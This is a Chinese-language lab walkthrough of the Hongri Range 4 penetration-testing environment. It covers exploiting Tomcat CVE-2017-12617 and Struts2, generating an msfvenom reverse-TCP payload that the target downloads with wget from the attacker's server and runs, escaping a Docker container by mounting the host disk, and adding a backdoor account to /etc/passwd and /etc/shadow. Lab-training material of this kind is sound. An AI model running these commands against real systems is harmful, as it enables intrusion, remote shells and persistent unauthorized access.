


# 红日靶场四

## 外网

```
ubuntu密码：ubuntu：ubuntu 内网：192.168.183.128 外网：192.168.1.131
dc密码：administrator：admin@123 192.168.183.130
win7密码：douser:Dotest123 192.168.183.129
kali攻击机：192.168.1.128
```

进行前期配置完毕之后

我们首先把Ubuntu的docker打开

命令提示：

```
docker ps -a 查看容器信息
docker start 【容器id】 开启容器
查询占用的docker映射占用的端口号 docker container ls -a|grep 端口号
```


成功打开，其中有一些未能打开的容器报错可以先不管

### 信息搜集

首先进行端口扫描，发现22 2001 2002 2003开启


尝试进行访问

发现2001对应着一个文件上传页面 


2002对应着tomcat默认页面


 2003是phpmyadmin


### 漏洞利用

#### struts2漏洞

在浏览器中进行访问主机的2001端口，此时可以看到浏览的结果，上传文件后发现没有任何反应，此时发现上传之后url的后缀名发现是以.action结尾的，action可能是Java语言编写的，判断可能存在struts2的漏洞

然后查看源代码也发现如下，可能是strusts2的框架


所以猜测存在struts2的漏洞

使用strusts2扫描工具发现


含有s2-045，s2-046两个漏洞


验证发现可以听过漏洞进行命令执行


访问发现是404报错，放弃看下一个

#### tomcat

2002端口是一个apache tomcat 8.5.19



在kali上搜索是否含有版本漏洞


把漏洞检测的poc复制出来

```
POC的含义 POC通常是一个简单的代码示例或一个脚本，用于验证某个系统或应用程序中存在的漏洞、弱点或安全问题
```

使用poc检测是否存在漏洞，这里发现是存在CVE-2017-12617这个漏洞的，这里的poc原理应该是上传了一个Poc.jsp来判断是否存在漏洞(该版本的tomcat进行漏洞查找，发现该版本存在CVE-2017-12617漏洞，这个漏洞CVE- 2017-12615是 Tomcat远程代码执行漏洞(PUT请求)，可以使用PUT方法上传任意文件)


我们访问一下Poc.jsp，是存在的


那么存在漏洞，直接使用`-p`参数进行攻击，这里拿到了一个反弹回来的shell，这里因为是交互型shell，不太方便下一步的操作，这里尝试着上线msf

```
python 42966.py -u http://192.168.1.131:2002/ -p pwn
```


这里拿到了命令执行的权限，所以考虑用msf生成马子，然后用权限运行，方便连接

因为是linux，所以需要生成linux的木马，在kali本地起一个http服务方便靶机下载

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f elf > shell.elf

python -m SimpleHTTPServer	#py2环境，开启http服务，使靶机能够下载马子
```


因为这里是python3，所以用python -m http.server 8000

下载shell.elf并赋权执行

```
wget http://192.168.1.10:8000/shell.elf

chmod 777 shell.elf

./shell.elf
```


使用msf接收会话，上线成功

```
use exploit/multi/handler选择插件
set payload linux/x86/meterpreter/reverse_tcp 选择payload
set lhost 192.168.1.10 
set lport 4444
run
```


成功上线

#### phpmyadmin


## 内网渗透

### docker逃逸


看到这个后缀文件判断在docker容器里面

所以尝试docker逃逸

进行查看光盘时，可以看到能够挂载的光盘


创建一个文件，把光盘sda1(当前docker镜像主空间）挂载到该文件下


再查看可以看到很多文件

### 提权

尝试进行修改这些文件发现，能够进行修改文件，然后在相同版本的ubuntu中进行创建用户密码，复制到此文件中

查看挂载后目录下的etc目录



查看/9/etc/passwd


 尝试进行修改这些文件发现，能够进行修改文件

然后在另一台虚拟机相同版本的ubuntu中进行创建用户密码，将文件中成功创建的一行，复制到此文件中

```
账户信息（etc/passwd
lidy:x:1001:1001:lidy,123,123,123,123:/home/lidy:/bin/bash
账户权限（etc/shadow
lidy:\$6\$Iw/VWaL.\$5Q5Iqv.RbKvpqBp/x1MtBkk.AWNi7NXmXXPeg4g0yB2TGatTshwq2.KjcPNhmqx57uCTerwbo6b0s5fr2qOIa0:19808:0:99999:7:::（因为echo出来有问题所以这里在每个$前面加了一个\反斜杠转义
密码
```

使用echo将用户信息加入文件中

再分别查看是否添加成功


成功添加
